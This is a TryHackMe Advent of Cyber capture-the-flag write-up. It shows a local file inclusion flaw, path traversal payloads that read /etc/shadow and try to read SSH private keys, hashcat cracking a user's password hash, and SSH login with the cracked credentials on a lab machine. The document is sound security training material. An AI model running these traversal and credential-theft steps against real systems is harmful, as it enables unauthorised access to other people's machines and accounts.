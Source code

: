 # TryHackMe: Advent of Cyber, LFI

## LFI vulnerability

After browsing the homepade's source code, I found a Javascript excerpt at the bottom of the page.

```javascript
function getNote(note, id) {
    const url = '/get-file/' + note.replace(/\//g, '%2f')
    $.getJSON(url,  function(data) {
        document.querySelector(id).innerHTML = 
            data.info.replace(/(?:\r\n|\r|\n)/g,'<br>');
    })
}
// getNote('server.js', '#note-1')
getNote('views/notes/note1.txt', '#note-1')
getNote('views/notes/note2.txt', '#note-2')
getNote('views/notes/note3.txt', '#note-3') 
```

The function `getNote()` fires a `$.getJSON` request to the server, on url `/get-file/filenamehere`.

This can be exploited.

## LFI Exploitation

Firstly I tested that the file's would switch; and fired off the following from my browser's console.

```js
getNote('views/notes/note3.txt','#note-1')
```

And found that `#note-1`'s content changed. I think slowly LFId my way to the `/etc/shadow` file with the following command.

```js
getNote('views/notes/../../../../../etc/shadow', '#note-1')
```

This eventually returned...

```
root:*:18152:0:99999:7:::
daemon:*:18152:0:99999:7:::
bin:*:18152:0:99999:7:::
sys:*:18152:0:99999:7:::
sync:*:18152:0:99999:7:::
games:*:18152:0:99999:7:::
man:*:18152:0:99999:7:::
lp:*:18152:0:99999:7:::
mail:*:18152:0:99999:7:::
news:*:18152:0:99999:7:::
uucp:*:18152:0:99999:7:::
proxy:*:18152:0:99999:7:::
www-data:*:18152:0:99999:7:::
backup:*:18152:0:99999:7:::
list:*:18152:0:99999:7:::
irc:*:18152:0:99999:7:::
gnats:*:18152:0:99999:7:::
nobody:*:18152:0:99999:7:::
systemd-timesync:*:18152:0:99999:7:::
systemd-network:*:18152:0:99999:7:::
systemd-resolve:*:18152:0:99999:7:::
systemd-bus-proxy:*:18152:0:99999:7:::
syslog:*:18152:0:99999:7:::
_apt:*:18152:0:99999:7:::
lxd:*:18152:0:99999:7:::
messagebus:*:18152:0:99999:7:::
uuidd:*:18152:0:99999:7:::
dnsmasq:*:18152:0:99999:7:::
sshd:*:18152:0:99999:7:::
pollinate:*:18152:0:99999:7:::
ubuntu:!:18243:0:99999:7:::
charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::
```

## Attempted Looting

### SSH keys

We know that `charlie` and `ubuntu` are two potentially exploitable users. They could have SSH keys. 

```js
getNote('views/notes/../../../../../home/charlie/.ssh/id_rsa', '#note-1');
getNote('views/notes/../../../../../home/ubuntu/.ssh/id_rsa', '#note-2');
```

Though we get no response here; perhaps we don't have the appropriate permissions.

## Cracking `charlie`s password

We'll use `hashcat` for this.

```console
hashcat -a 0 -m 0 $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL. /usr/share/wordlists/fasttrack.txt
```

```console
kali@kali:~$ hashcat -a 0 -m 1800 '$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.' /usr/share/wordlists/fasttrack.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-4690K CPU @ 3.50GHz, 2890/2954 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit   
                 
ATTENTION! Pure (unoptimized) backend kernels selected.                                                         
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.      
If you want to switch to optimized backend kernels, append -O to your commandline.                              
See the above message to find out about the exact limits.    
                       
Watchdog: Hardware monitoring interface not found on your system.   

Watchdog: Temperature abort trigger disabled.  

Host memory required for this attack: 65 MB   

Dictionary cache hit:
* Filename..: /usr/share/wordlists/fasttrack.txt                                                                
* Passwords.: 222                 
* Bytes.....: 2006                 
* Keyspace..: 222      

$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:password1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0K...GOyhL.
Time.Started.....: Fri Sep 18 16:56:51 2020 (0 secs)
Time.Estimated...: Fri Sep 18 16:56:51 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/fasttrack.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1029 H/s (10.50ms) @ Accel:32 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 128/222 (57.66%)
Rejected.........: 0/128 (0.00%)
Restore.Point....: 0/222 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidates.#1....: Spring2017 -> god

Started: Fri Sep 18 16:56:47 2020
Stopped: Fri Sep 18 16:56:53 2020
```


## Trying to SSH into the box with our cracked credentials

We get shell!

```console
kali@kali:~$ ssh charlie@10.10.190.17
The authenticity of host '10.10.190.17 (10.10.190.17)' can't be established.
ECDSA key fingerprint is SHA256:zTb8DQ+FkYzMQWHtrqJMlZKGR8HKhFTeSzpis26L+0s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.190.17' (ECDSA) to the list of known hosts.
charlie@10.10.190.17's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.

Last login: Fri Dec 13 21:44:29 2019 from 10.8.11.98
charlie@ip-10-10-190-17:~$ 
```

## Looting `charlie`

### Flag1.txt
```shell
charlie@ip-10-10-190-17:~$ ls
flag1.txt
charlie@ip-10-10-190-17:~$ cat flag1.txt 
```

### Finding when Charlie is booking his holiday..

_Read note 3_ on the homepage.